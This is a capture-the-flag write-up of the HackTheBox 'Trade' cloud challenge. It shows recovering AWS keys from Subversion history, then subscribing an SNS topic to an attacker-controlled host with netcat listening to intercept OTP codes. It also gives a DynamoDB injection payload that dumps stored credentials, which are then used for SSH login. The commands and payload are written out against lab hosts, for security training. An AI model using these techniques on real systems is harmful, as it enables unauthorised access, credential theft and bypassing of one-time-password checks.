








# Overview
The Trade machine was another challenge included in the HackTheBox Business CTF 2022 and was rated as an easy Cloud challenge.  The only information provided was the IP of the initial machine and the description below.

> With increasing breaches there has been equal increased demand for exploits and compromised hosts. Dark APT group has released an online store to sell such digital equipment. Being part of defense operations can you help disrupting their service ?

# Initial Nmap
The initial nmap scan shows 3 ports open from the top 1000: SSH, HTTP, and Subversion.

```bash
Nmap scan report for 10.129.186.201
Host is up (0.089s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http     Apache httpd 2.4.41
|_http-title: Monkey Backdoorz
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: Werkzeug/2.1.2 Python/3.8.10
3690/tcp open  svnserve Subversion
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# HTTP
When visiting the IP in the browser, we're presented with a login page for "Monkey Backdoorz".  We don't have credentials at the moment and the general default credentials of admin:admin, etc. do not seem to work.  I began a directory brute-force with gobuster and moved on to investigating the Subversion service identified by nmap.

**Initial login**


# Subversion
Apache Subversion is a version control software, similar to Git, that is open source.  According to Google the biggest different is that Git version control is distributed, while SVN is centralized.

For reference, most of the commands I'm using can be found [here](https://book.hacktricks.xyz/network-services-pentesting/3690-pentesting-subversion-svn-server) as a general methodology of investigating Subversion.

We can begin investigating the SVN instance by using a few commands to get an idea of what is stored there.  First, we can list the repositories available, which shows only one named store.  We can then checkout the store repository and automatically sync any files kept there to our local machine.  In this case, this downloads a README and two Python scripts.

```bash
$ svn ls svn://10.129.186.194                                                                                                                                                                                             130 ⨯ 1 ⚙
store/


$ svn checkout svn://10.129.186.194                                                                                                                                                                                             
A    store
A    store/README.md
A    store/dynamo.py
A    store/sns.py
Checked out revision 5.

```

Sns.py appears to be a script used to interact with instances of an AWS [S3](https://aws.amazon.com/s3/) bucket and [SNS](https://aws.amazon.com/sns/?whats-new-cards.sort-by=item.additionalFields.postDateTime&whats-new-cards.sort-order=desc) (Simple Notification Service).  However, the script seems to have had the AWS secrets removed.



Dynamo.py is another script interacting with an AWS service, this time to create/update a [DynamoDB](https://aws.amazon.com/dynamodb/) instance.  The credentials below for the user 'marcus' were found hard-coded in the script.

```bash
client.put_item(TableName='users',
	Item={
		'username': {
			'S': 'marcus'
		},
		'password': {
			'S': 'dFc42BvUs02'
		},
	}
```

Going back to the web page found earlier, they allow us to login successfully, but move us next to an OTP prompt.  We don't know how the OTP is generated yet, so I went back to investigating SVN further.


As Subversion works like Git, that means we can view the log of commits to this particular repository and potentially view the older versions.  As seen below, there are 5 revisions available for this repository, with r5 being the latest and the one we downloaded.

```bash
$ svn log svn://10.129.186.194                                                                                                                                                                                              
------------------------------------------------------------------------
r5 | root | 2022-06-14 02:59:42 -0700 (Tue, 14 Jun 2022) | 1 line

Adding database
------------------------------------------------------------------------
r4 | root | 2022-06-14 02:59:23 -0700 (Tue, 14 Jun 2022) | 1 line

Updating Notifications
------------------------------------------------------------------------
r3 | root | 2022-06-14 02:59:12 -0700 (Tue, 14 Jun 2022) | 1 line

Updating Notifications
------------------------------------------------------------------------
r2 | root | 2022-06-14 02:58:26 -0700 (Tue, 14 Jun 2022) | 1 line

Adding Notifications
------------------------------------------------------------------------
r1 | root | 2022-06-14 02:49:17 -0700 (Tue, 14 Jun 2022) | 1 line

Initializing repo
------------------------------------------------------------------------

```

Changing to a previous revision (revision 2) shows an older version of sns.py with the AWS secrets still included.  

```bash
$ svn checkout svn://10.129.186.201 -r 2                                                                                                                                                                                    

   C store
   A store/README.md
   A store/sns.py
Checked out revision 2.
```

**Old revision of sns.py**

```bash
region = 'us-east-2'
max_threads = os.environ['THREADS']
log_time = os.environ['LOG_TIME']
access_key = 'AKIA5M34BDN8GCJGRFFB'
secret_access_key_id = 'cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
```

These can be setup in the AWS CLI by running `aws configure` and entering the appropriate values when prompted (access key, secret access key, region, etc.).

```bash
# Install awscli packages
$ sudo apt-get install awscli

# Configure awscli to use the identified secrets
$ aws configure
```


# AWS
With the AWS CLI setup with the appropriate secrets, we need to investigate the services being used by the application: S3 and SNS.  Unfortunately, our secrets don't appear to have permission to enumerate S3 buckets, so I moved on to SNS.

After some trial and error, the command below enumerates the available topics in SNS (Simple Notification Service) within AWS.  `--endpoint-url` needs to specify the HTB host as it is running a local instance of the AWS services.  I just added the IP of the device to my /etc/hosts file and pointed it to cloud.htb in this case to match the endpoint seen in the Python scripts.

```bash
$ aws --endpoint-url=http://cloud.htb sns list-topics                                                                                                                                                                       
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp"
        }
    ]
}
```

Reading through the [documentation](https://docs.aws.amazon.com/AmazonCloudWatch/latest/monitoring/US_SetupSNS.html), we can subscribe to the topic using the command below and specifying the HTTP protocol along with our attacking IP.  This way, whenever a notification is sent it will come over port 80 to our machine.  We can monitor for this connection with netcat on port 80 and see any requests that come in.

```bash
$ aws --endpoint-url=http://cloud.htb sns subscribe --topic-arn "arn:aws:sns:us-east-2:000000000000:otp" --protocol http --notification-endpoint http://10.10.14.2
{
    "SubscriptionArn": "arn:aws:sns:us-east-2:000000000000:otp:47ceda90-0699-4142-90b7-acad806a5db6"
}
```

If we have netcat listening when this subscription is submitted, we get a confirmation message from the server for the new subscription.

```bash
$ nc -lvnp 80                                                                                                                                                                                                                 

listening on [any] 80 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.186.201] 38974
POST / HTTP/1.1
Host: 10.10.14.2
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
x-amz-sns-message-type: SubscriptionConfirmation
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:9a21091c-7dcc-4349-9146-609d063997ee
Content-Length: 831

{"Type": "SubscriptionConfirmation", "MessageId": "cbda25dd-1fcf-4c08-8b0a-555d6ecc4d3f", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "You have chosen to subscribe to the topic arn:aws:sns:us-east-2:000000000000:otp.\nTo confirm the subscription, visit the SubscribeURL included in this message.", "Timestamp": "2022-07-18T18:35:11.625Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "SubscribeURL": "http://localhost:4566/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-2:000000000000:otp&Token=c348e025", "Token": "c348e025", "UnsubscribeURL": "http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:9a21091c-7dcc-4349-9146-609d063997ee"}

```

Now, when logging into the web app with marcus' credentials and have netcat running on port 80, a successful login on the web app sends the notification below, which includes an OTP in the section I have isolated.

```bash
$ nc -lvnp 80                                                                                                                                                                                                                   
listening on [any] 80 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.186.194] 47912
POST / HTTP/1.1
Host: 10.10.14.2
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
x-amz-sns-message-type: Notification
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:47ceda90-0699-4142-90b7-acad806a5db6
Content-Length: 529

{"Type": "Notification", "MessageId": "d361f33c-6566-458f-862e-a137e24f4657", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "

{\"otp\": \"74918031\"}", <----- OTP Number

"Timestamp": "2022-07-17T23:38:26.886Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "UnsubscribeURL": "http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:47ceda90-0699-4142-90b7-acad806a5db6"}

```

Using this number for the OTP prompt allows us to successfully login to the website.



The website itself appears to be a marketplace for access to various companies, but the cart functionality doesn't seem to be fully functional.

# DynamoDB Injection
At the bottom of the page is a link to a search page for more exploits.



Visiting this page gives a pretty generic search box and results message when entering regular text.



However, based on the script found earlier in SVN, it appears the website is using a [DynamoDB](https://aws.amazon.com/dynamodb/) database, which is a proprietary NoSQL database service used by Amazon.

After some fuzzing on the search parameter, a few characters cause a different result to be displayed.  Below shows the result when a double-quote (") is entered, displaying a JSONDecodeError and the query being sent to the database.  A few Google searches on this error and the variables being used in the query confirms the search is most likely connected to a DynamoDB instance that our input is being directly passed to.



After some research on DynamoDB injections, I found [this article](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) discussing ways to exploit them and how they work.  The important part is quoted below:

>With String attributes, comparison gets tricky, as comparison depends on the ASCII lexical ordering of strings, therefore, if you compare string values against another string with lower lexical ordering like * or a string with whitespace its likely to be always greater than or less than the queried string.

I also found [this useful](http://support.ecisolutions.com/doc-ddms/help/reportsmenu/ascii_sort_order_chart.htm) website showing the ASCII sort order, with the first character being a space.

This effectively means if we can inject a string comparison against something like a whitespace character then it will function the same as the usual `OR 1=1` used in other common SQL injections and return every item from the database.  With some trial and error, our full query eventually ends up looking like the json data below when expanded.  This takes the original query seen in the error message and adds a second portion where we are doing a greater than (GT) comparison against the space character.  This will result in a true response for every other ASCII character, essentially returning everything.

```json
{
	"servername": 
	{
		"ComparisonOperator": "EQ","AttributeValueList": [
				{
					"S": "START_OF_PAYLOAD"
				}
			]
	},
	"servername": 
	{
		"ComparisonOperator": "GT","AttributeValueList": [
				{
					"S": " "
				}
			]
	}
}
```

When compressed to one line and the rest of the query removed (including the final `"}]}}` added by the server), we get the payload below (there is a space at the end, though it's not easy to see).

```json
START_OF_PAYLOAD"}]},"servername":{"ComparisonOperator": "GT","AttributeValueList": [{"S": " 
```

When this payload is submitted, the injection appears to be successful as the results include everything in the database.  In this case, this is a list of servers, usernames, passwords, and shell locations.



The list of usernames/passwords can be taken and tried against the SSH service that was seen listening on the server initially.  Eventually, we discover the credentials for Mario are valid and allow us to log in.



The flag.txt can be found in mario's home directory.

